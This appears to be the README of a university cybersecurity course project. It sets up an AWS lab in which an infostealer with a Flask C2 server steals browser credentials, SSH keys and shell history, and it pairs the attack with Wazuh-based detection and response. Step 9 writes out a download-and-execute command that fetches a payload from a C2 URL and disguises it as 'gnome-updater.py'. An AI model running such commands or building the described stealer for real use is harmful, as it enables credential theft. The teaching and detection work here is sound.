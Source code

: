 # 🕵️‍♂️ InfoStealer and C2 Persistence

[![Status](https://img.shields.io/badge/Status-Educational%20Project-blue.svg)](https://www.unb.br/)
[![License](https://img.shields.io/badge/License-MIT-green.svg)](LICENSE)

This repository presents an infostealer malware project with Command & Control (C2) infrastructure, developed for educational purposes in the **CyberSecurity Fundamentals** discipline at **UnB 2025.1**.

## 🎯 Project Objective

The main objective is to develop and implement a laboratory environment for simulating a cyberattack focused on **credential and sensitive data theft via Infostealer**, and maintaining **persistence through a C2 infrastructure**. The simulation aims to understand the dynamics of such attacks and propose **comprehensive solutions** (technical, operational, and procedural) for their detection, prevention, and mitigation.

This work was developed as part of the **CyberSecurity Fundamentals Seminar at UnB 2025.1**.

## ✨ Features

The project simulates a multi-stage attack, including the following key components:

* **HID Device Infection Vector (Simulated BadUSB):**
    * Simulates a USB drive that emulates a keyboard (BadUSB) to inject initial commands into the victim machine.
    * Injects commands to download and execute the Infostealer autonomously on the target machine.
* **Infostealer (Malicious Client):**
    * Developed in **Python** for multi-platform compatibility (Linux demonstrated).
    * Collects browser credentials (**Firefox**, **Chromium**).
    * Collects sensitive files (**.bash_history**, **SSH keys**).
    * Searches for **.txt** files containing keywords in their names.
    * Collects system information.
    * Exfiltrates complete files and collected information to the C2 via **HTTP POST**.
* **Command & Control (C2 Server):**
    * Implemented in **Flask (Python)**.
    * Receives and stores exfiltrated data, organized by victim ID and category.
    * Serves the `stealer_client.py` payload for download.
    * Allows the operator to send arbitrary commands to the Infostealer client, receiving the output.
    * Maintains client persistence.

## ⚙️ Lab Setup

1. **Install Required Tools**
    - Download and install [Terraform](https://www.terraform.io/downloads.html).
    - Download and install [Ansible](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html) (not just the core).
    - Download and install [AWS CLI](https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html).

2. **Set Up AWS Credentials and SSH Keys**
    - Create an AWS account and generate an Access Key for CLI usage.
    - Run `aws configure` to set up your credentials.
    - Create a SSH `key_pair` for your VMs

3. **Configure Variables**
    - Edit `variables.tfvars` and set your `key_pair` and IP address.
    - You can find your IP address with:  
      ```bash
      curl https://ipinfo.io/ip
      ```

4. **Prepare Deployment Script**
    - Make the deployment script executable:  
      ```bash
      chmod +x deploy.sh
      ```

5. **Deploy Infrastructure**
    - Run the deployment script, passing the path to your private key:  
      ```bash
      ./deploy.sh path-to-private-key
      ```
    - The script runs `terraform apply -auto-approve` and `ansible-playbook -i hosts playbook.yaml`.  
      You can also run these commands manually if needed and for terraform run `terraform apply` without `-auto-approve` to be asked to perform the actions.

6. **Access the Virtual Machines**
    - SSH into the web server VM:  
      ```bash
      ssh ubuntu@<IP_VM> -i path-to-private-key
      ```

7. **Troubleshooting**
    - **Connection timeout during deployment:**
      If you see an error like:
      ```
      fatal: [<IP>]: UNREACHABLE! => {"changed": false, "msg": "Failed to connect to the host via ssh: ssh: connect to host <IP> port 22: Connection timed out", "unreachable": true}
      ```
      This can rarely happen when running `deploy.sh`. If it does, simply run the script again.

    - **Wazuh active response scripts permission error:**
      If the deployment fails with permission errors for Wazuh active response scripts:
      ```
      failed: [<WAZUH_IP>] => {"msg": "chgrp failed: failed to look up group ossec"}
      ```
      This happens when the scripts are copied before the Wazuh service creates the proper groups. To fix:
      ```bash
      ssh -i /path/to/your/key.pem ubuntu@<WAZUH_IP>
      sudo chown -R root:wazuh /var/ossec/active-response/bin/
      sudo systemctl restart wazuh-manager
      ```

8. **Manual Fix**
    - On the victim **and** protected VMs, you need to run a script to seed the sensitive data in the machines:
      ```bash
      cd /tmp && ./seed_sensitive_files.sh
      ```

9. **Simulate and Detect the InfoStealer Attack**
    - On the victim VM, run (simulation of the USB):
      ```bash
      mkdir -p ~/.config/.systemd-user/ && cd ~/.config/.systemd-user/

      wget ${C2_URL}/security_debian_x386 -O gnome-updater.py && chmod +x gnome-updater.py && python3 gnome-updater.py
      ```

        ## **TODO: INSERT THE OTHER STEPS**

10. **Destroy and Clean Up the Environment**
    - To remove all provisioned resources and avoid unnecessary charges, run:
        ```bash
        terraform destroy
        ```
- **WARNING: If you do NOT destroy the infrastructure after use, AWS may CHARGE YOU for active resources if you exceed the AWS Free Tier limits!**

## 💾 Storage and Free Tier Considerations

- **VM Storage:** The Wazuh VM is configured with 30GB of storage to accommodate the Wazuh Manager installation and logs
- **Free Tier Limits:** AWS Free Tier includes 30GB of EBS storage, so this configuration stays within limits
- **Disk Space Management:** Wazuh generates logs and can consume significant disk space over time. Monitor usage with:
  ```bash
  ssh -i /path/to/your/key.pem ubuntu@<WAZUH_IP> "df -h"
  ```
- **Storage Optimization:** If you need to extend usage, consider implementing log rotation and cleanup policies


> **NOTE:** While this setup is designed to stay within AWS Free Tier limits, you may incur small charges (a few cents) for data transfer.

## 🛡️ Detection and Mitigation Strategies

The project emphasizes proposing comprehensive solutions for detecting, preventing, and mitigating the simulated attack.

### **🔍 Dynamic Threat Detection**
The system uses **Zero Trust** principles and **real-time monitoring** to detect threats:

* **Network Behavior Analysis**: Monitors all network connections and flags external IPs contacted by Python processes
* **Dynamic IP Blocking**: Automatically blocks IPs when suspicious C2 communication is detected
* **Behavioral Patterns**: Identifies infostealer patterns (file access + network communication + persistence)
* **No Pre-configured Targets**: The system discovers threats organically without knowing attacker IPs in advance

### **⚡ Automated Response Actions**
When threats are detected, the system automatically:

1. **Kills malicious Python processes** immediately
2. **Disables suspicious systemd services** 
3. **Blocks C2 communication** via iptables rules
4. **Quarantines malicious files** for analysis
5. **Logs all activities** for forensic investigation

* **Technical Controls:** Firewall, EDR/Antivirus, OS hardening, log monitoring, network traffic analysis (IDS/IPS).
* **Operational Measures:** Incident Response Plan (IRP), threat hunting, backups.
* **Procedural Measures:** User awareness regarding social engineering and secure USB usage, USB device usage policies, principle of least privilege.

## ⚠️ Disclaimer

**This project is strictly for educational purposes within the CyberSecurity Fundamentals discipline at the University of Brasília (UnB 2025.1). It must not be used in production environments, real networks, or for any malicious activity. Misuse of this code is the sole responsibility of the user.**

---
